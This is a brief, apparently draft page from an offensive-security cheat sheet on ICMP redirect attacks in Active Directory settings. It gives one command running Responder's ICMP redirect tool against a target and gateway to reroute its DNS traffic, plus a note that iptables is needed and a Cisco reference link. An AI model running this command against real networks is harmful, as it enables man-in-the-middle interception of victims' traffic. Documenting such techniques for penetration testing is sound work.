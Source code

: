 ```yaml
---
authors: ShutdownRepo
category: ad
---
```


# 🛠️ ICMP Redirect

```bash
python3 tools/Icmp-Redirect.py --interface eth0 --ip $my_ip --gateway $gateway --target $target --route $dnsserver1 --secondaryroute $dnsserver2
```

need iptable

[https://www.cisco.com/c/en/us/support/docs/ios-nx-os-software/nx-os-software/213841-understanding-icmp-redirect-messages.html](https://www.cisco.com/c/en/us/support/docs/ios-nx-os-software/nx-os-software/213841-understanding-icmp-redirect-messages.html)

Responder/tools/ICMP_Redirect.py

